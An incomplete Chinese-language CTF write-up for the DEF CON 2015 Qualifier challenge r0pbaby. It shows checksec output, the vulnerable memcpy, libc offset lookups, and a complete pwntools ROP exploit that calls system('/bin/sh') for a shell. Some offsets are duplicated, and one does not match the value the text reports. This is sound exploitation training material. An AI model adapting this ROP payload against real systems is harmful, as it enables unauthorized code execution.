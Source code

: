 # Defcon 2015 Qualifier - r0pbaby
[x]未完成
## peda - checksec

```bash
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : disabled
```
## 漏洞代码

```c
memcpy(&savedregs, nptr, v8);
```

## 解题步骤

* ldd 查看文件所需的动态链接库

```bash
ldd r0pbaby
```
* 使用`strings`查看`/bin/sh`在`libc`里的偏移

```bash
strings -tx /lib/x86_64-linux-gnu/libc.so.6| grep "/bin/sh"
```
-t 参数显示偏移，x表示偏移的进制格式为16进制，我得到的结果是` 180503 /bin/sh`

* 获取system函数地址

r0pbaby的第二个功能可以帮我们获取system函数的地址，我们可以得到`Symbol system: 0x00007F56F7F4D590`

## 构造exp

```python
system = 0x00007FFFF784F390 #get_libc_base()
rdi_gadget_offset = 0x21102
bin_sh_offset = 0x18c177
system_offset = 0x45390
from pwn import *
debug =1
if debug ==1:
  io = process("./r0pbaby")
else:
  io = remote("127.0.0.1",10002)
  #db.attach(io)
system = 0x00007FFFF784F390#get_libc_base()
rdi_gadget_offset = 0x21102
bin_sh_offset = 0x18c177
system_offset = 0x45390
libc_base = system - system_offset # system addr - system_offset = libc_base
print "[+] libc base: [%x]" % libc_base
rdi_gadget_addr = libc_base + rdi_gadget_offset
print "[+] RDI gadget addr: [%x]" % rdi_gadget_addr
bin_sh_addr = libc_base + bin_sh_offset
print "[+] \"/bin/sh\" addr: [%x]" % bin_sh_addr
system_addr = 0x00007FFFF784F390#get_libc_func_addr(h, "system")
print "[+] system addr: [%x]" % system_addr
payload = "A"*8
payload += p64(rdi_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)
io.recv(1024)
io.sendline("3")
io.recv(1024)
io.send("%d\n"%(len(payload)+1))
io.sendline(payload)
io.sendline("4")
io.interactive()
```
